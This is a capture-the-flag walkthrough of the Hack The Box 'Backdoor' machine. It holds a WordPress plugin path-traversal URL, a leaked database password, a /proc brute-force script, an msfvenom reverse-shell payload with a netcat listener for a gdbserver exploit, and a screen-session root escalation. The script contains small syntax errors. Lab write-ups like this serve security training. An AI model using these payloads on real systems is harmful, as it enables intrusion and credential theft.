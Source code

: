 ```yaml
---
title: Backdoor Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration

```ruby
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 3072 b4de43384657db4c213b69f3db3c6288 (RSA)
| 256 aac9fc210f3ef4ef4ec6b3570262253ef66 (ECDSA)
|_ 256 d28be4ec0761aacaf8ec1cf88cc1f6e1 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Backdoor &#8211; Real-Life
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
1337/tcp open waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Applying a fuzzing, we see a lot of WordPress related files. If we look at the wappalyzer, we see that it uses version 5.8.1

## User Exploit

Investigating the directories of the website, we find `/wp-content/plugins`, inside which we find several files, one of them called eBook Downaload, so let's look for an exploit:
```shell
searchsploit wordpress ebook download
```

And we find the following exploit:

```shell
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../etc/passwd
```

Which abuses the path traversal to list files:

Once we run the command, we can now download and view /etc/passwd. 

Using the same command, we can view the wp-config.php, from which we can get the following information:
```sql
define( 'DB_NAME', 'wordpress' );
/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );
/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );
/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

However, we cannot use these credentials anywhere. 

We are going to try to exploit port 1337, but since this has no general use as such, let's create a python script to see what process is running on it:
```python
#!/usr/bin/python3

from pwn import *
import requests, signal, sys, pdb, time

def def_handler (sig, frame):
    print ("[!] You pressed Ctrl+C").
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

main_url="http://10.129.220.82/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl="

def makeRequest():
    p1=log.progress("Brute Force status:")
    p1.status("Starting...")
    time.sleep(1)
    
    for i in range(1,1000):
    
        p1.status("Trying: "+str(i))
        
        url=main_url+"/proc/"+str(i)+"/cmdline"
        
        r=requests.get(url)
        
        if len(r.content)>82:
            print("------------------------------------------")
            log.info("Found PID: "+str(i)))
           # log.info("Total length: "+str(len(r.content))))
            log.info(r.content)
            print("------------------------------------------")
            
if __name__ == '__main__':
    makeRequest()
```

And we see some very interesting information:
```shell
[*] Found PID: 955
[*] /proc/955/cmdline/proc/955/cmdline/proc/955/cmdline/bin/sh\x00c\x00hile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0.0:1337 /bin/true;";
```

Moreover, it is running on port 1337, which is the one we are interested in. Therefore, we are dealing with a gdbserver, which has an exploit for its version 9.2

```shell
❯ python3 gbd.py

Usage: python3 gbd.py <gdbserver-ip:port> <path-to-shellcode>.

Example:
- Victim's gdbserver -> 10.10.10.10.200:1337
- Attacker's listener -> 10.10.10.10.100:4444

1. Generate shellcode with msfvenom:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.100 LPORT=4444 PrependFork=true -o rev.bin

2. Listen with Netcat:
$ nc -nlvp 4444

3. Run the exploit:
$ python3 gbd.py 10.10.10.200:1337 rev.bin
```

We listen on port 4444 and run the script:

```python
python3 gbd.py 10.129.220.82:1337 rev.bin
```

and we would enter the machine as `user`.

## Root Exploit

Doing a `ps uax` we see that the following is executed as root:
```shell
root 956 0.0 0.0 0.0 2608 1756 ? Ss 11:53 0:01 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root;; done
```

If we look at the screen manual, we can see what the parameters used in the above process mean:

-S -> create a session with the specified name (In our case root).

-d -> to make a dettach

-m -> ask screen to ingest the environment variable $STY 

So, using the `-x` parameter we could already synchronize to the root screen: `screen -x root/` . Another possible option would be `screen -r root/` .

And we will be able to see the root flag.

